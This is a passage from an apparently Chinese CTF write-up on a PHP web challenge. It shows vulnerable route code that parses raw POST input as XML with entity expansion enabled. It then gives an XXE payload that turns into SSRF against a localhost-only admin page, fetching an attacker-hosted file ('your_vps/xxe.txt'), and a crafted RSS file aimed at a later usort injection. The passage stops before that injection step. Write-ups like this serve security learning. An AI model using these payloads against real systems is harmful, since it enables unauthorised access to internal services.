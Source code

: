 只能找一下其他利用，再看Custom

```
Route::set('custom',function()`{`
  $handler = fopen('php://input','r');
  $data = stream_get_contents($handler); 
  if(strlen($data) &gt; 1)`{`
    Custom::Test($data);
  `}`else`{`
    Custom::createView('Custom');
  `}`
`}`);
```

Custom::Test

```
class Custom extends Controller`{`
  public static function Test($string)`{`
      $root = simplexml_load_string($string,'SimpleXMLElement',LIBXML_NOENT);
      $test = $root-&gt;name;
      echo $test;
  `}`
`}`
```

$data内容可控为php://input，Test函数再将$data作为xml文本解析，那么存在XXE的问题，验证了一下可以利用

![](https://i.loli.net/2019/01/28/5c4e7655ea8f6.png)

联想到刚才admin页面只有本地才能请求，那就用Custom的XXE当跳板好了，测试一下是否能当跳板

poc:

```
&lt;?xml version='1.0'?&gt; 
&lt;!DOCTYPE name [&lt;!ENTITY  file SYSTEM "http://localhost/admin?rss=http%3A%2F%2Fyour_vps%2Fxxe.txt&amp;order=1"&gt;]&gt;
&lt;note&gt;
&lt;name&gt;&amp;file;&lt;/name&gt;
&lt;/note&gt;
```

![](https://i.loli.net/2019/01/28/5c4e7677a9567.png)

admin页面确实file_get_contents到了我vps的xxe文本。

尝试去构造正确的xml文本到执行到usort函数进行注入，warning不影响代码执行

`http://vps/xxe.txt`

```
&lt;?xml version="1.0" encoding="utf-8"?&gt;
&lt;root&gt;
&lt;channel&gt;
&lt;item&gt;
&lt;link&gt;@hpdoger.me&lt;/link&gt;
&lt;/item&gt;
&lt;item&gt;
&lt;link&gt;@souhu.com&lt;/link&gt;
&lt;/item&gt;
&lt;/channel&gt;
&lt;/root&gt;
```
